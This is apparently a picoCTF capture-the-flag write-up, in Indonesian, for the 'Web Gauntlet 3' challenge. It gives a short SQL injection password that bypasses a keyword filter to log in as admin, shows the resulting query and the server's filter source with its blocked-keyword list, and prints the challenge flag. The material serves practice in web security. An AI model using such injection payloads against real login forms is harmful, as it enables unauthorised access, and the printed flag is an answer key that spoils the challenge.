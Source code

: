 # Web Gauntlet 3
- Link: https://play.picoctf.org/practice/challenge/275?category=1&page=2

## Tantangan
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:32946/ Filter: http://mercury.picoctf.net:32946/filter.php

## Penyelesaian
- Buka URL http://mercury.picoctf.net:32946/ di browser

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%201.JPG)

- Buka URL http://mercury.picoctf.net:32946/filter.php ditab baru untuk membuka daftar string yang di filter

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%202.JPG)

- Disini kita bisa membypass login dengan username dan password sebagai berikut
```sh
username: admin
password: a' is not 'b
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%203.JPG)

- Inputan diatas akan menghasilkan query sebagai berikut
```sh
SELECT username, password FROM users WHERE username='adm'||'in' AND password='a' is not 'b'
```
- Percobaan diatas berhasil

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%204.JPG)

- Sekarang kita reload halaman http://mercury.picoctf.net:32946/filter.php untuk mendapatkan flag. Isi dari halaman tersebut adalah sebagai berikut
```sh
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```
- Flag
```sh
picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
```